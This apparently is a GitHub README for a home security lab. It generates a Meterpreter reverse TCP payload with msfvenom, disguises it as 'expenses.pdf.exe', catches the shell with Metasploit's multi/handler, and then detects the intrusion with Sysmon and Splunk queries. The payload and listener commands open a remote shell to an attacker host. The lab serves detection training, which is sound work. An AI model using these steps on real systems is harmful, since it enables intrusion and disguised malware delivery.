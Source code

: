 # Attack and Dectection Lab: Meterpreter Reverse TCP Payload

## Project Overview
This project simulates an attack using the `meterpreter_reverse_tcp` payload generated by `msfvenom`.
The objective of this project is to compromise a Windows 10 machine and detect the attack using Sysmon and Splunk

## Tools used
- Kali Linux (attacker machine)
- Windows 10 (victim machine)
- Splunk
- Sysmon

## Attack Simulation
Payload: `windows/meterpreter/reverse_tcp` \
Tools used: Metasploit framework (`msfvenom`, `msfconsole`)

###Steps taken:
1. Find an open port using nmap -A -Pn <Victim IP address>
2. Generate the payload using:
`msfvenom -p windows/x64/meterpreter_reverse_tcp lhost=<host IP address> lport=<host unused port>
 -f exe -o expenses.pdf.exe`
3. Deliver the payload to the victim machine
4. Establish a Meterpreter session via msfconsole
   To receive the reverse shell, Metasplit's `exploit/multi/handler` module was used to be a listener and capture a connection from the malicious payload
   ```bash
   msfconsole
   use exploit/multi/handler
   set payload windows/meterpreter/reverse_tcp
   set lhost <attacker IP address>
   set lport <open port used in (2)>
   exploit
   ```

## Detection
Using EventCode=3 detected a unusual network connection from `<attacker IP address>` to port `<3389> (RDP)`. \
Looking at more log evidence using the query of: \
 `index=sysmon EventCode=3 <attacker IP address>` \
A log entry is found where: \
`DestinationIp: <attacker IP address>`\
`sourceIp: <victim IP address>`\
`Image: C:\Users\<User>\Downloads\expenses.pdf.exe`\
Thus indicating a network connection initiated by an unusual executable file from the victim machine which is a strong indicator of a reverse shell or command and control channel\
Using the query of : `index=sysmon EventCode=1 expenses.pdf.exe a Log indicating cmd.exe was ccreated from the parent process of `expenses.pdf.exe`\
using the process_guid it is discovered that this process executed commands such as whoami, ipconfig, net localgroup, net user
